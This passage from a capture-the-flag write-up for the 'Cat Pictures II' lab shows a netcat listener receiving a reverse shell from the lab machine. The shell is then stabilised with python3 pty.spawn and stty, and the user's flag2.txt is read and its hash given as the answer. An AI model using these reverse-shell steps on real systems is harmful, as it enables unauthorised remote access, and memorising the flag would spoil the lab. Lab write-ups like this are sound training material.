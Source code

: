 Now, if we start a netcat listener on a session and launch the action from the 1337 portal, we should recieve a nice reverse shell connection:
```shell-session
$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.11.5.201] from (UNKNOWN) [10.10.51.5] 54020
bismuth@catpictures-ii:~$ 
```

BINGO! Now let's do some enumeration and look for more flags:
```shell-session
## Frist we need to stablilize the shell:
bismuth@catpictures-ii:~$ which python3
which python3
/usr/bin/python3

bismuth@catpictures-ii:~$ python3 -c "import pty; pty.spawn('/bin/bash')"
python3 -c "import pty; pty.spawn('/bin/bash')"

bismuth@catpictures-ii:~$ ^Z
zsh: suspended  nc -nvlp 4444

$ stty raw -echo && fg                                        

[1]  + continued  nc -nvlp 4444
                               export TERM=xterm-256-color
bismuth@catpictures-ii:~$ ## Cool! The shell's been stabilized. Now let's look for flags :)
bismuth@catpictures-ii:~$ ls -la
total 56
drwxr-xr-x 8 bismuth bismuth 4096 Mar 20 08:58 .
drwxr-xr-x 3 root    root    4096 Nov  7  2022 ..
drwxr-xr-x 3 bismuth bismuth 4096 Nov  7  2022 .ansible
lrwxrwxrwx 1 bismuth bismuth    9 Nov  7  2022 .bash_history -> /dev/null
-rw-r--r-- 1 bismuth bismuth  220 Nov  7  2022 .bash_logout
-rw-r--r-- 1 bismuth bismuth 3771 Nov  7  2022 .bashrc
drwx------ 2 bismuth bismuth 4096 Nov  7  2022 .cache
drwxr-x--- 3 bismuth bismuth 4096 Nov  7  2022 .config
-rw-rw-r-- 1 bismuth bismuth   33 Mar 20 08:58 flag2.txt
drwx------ 3 bismuth bismuth 4096 Nov  7  2022 .gnupg
-rw------- 1 bismuth bismuth   43 Nov  7  2022 .lesshst
drwxrwxr-x 2 bismuth bismuth 4096 Nov  7  2022 .nano
-rw-r--r-- 1 bismuth bismuth  655 Nov  7  2022 .profile
drwx------ 2 bismuth bismuth 4096 Nov  7  2022 .ssh
-rw-r--r-- 1 bismuth bismuth    0 Nov  7  2022 .sudo_as_admin_successful
-rw-rw-r-- 1 bismuth bismuth  182 Nov  7  2022 .wget-hsts

bismuth@catpictures-ii:~$ cat flag2.txt
5e2cafbbf180351702651c09cd797920
```

> What is Flag 2?
> 
> Answer: `5e2cafbbf180351702651c09cd797920`
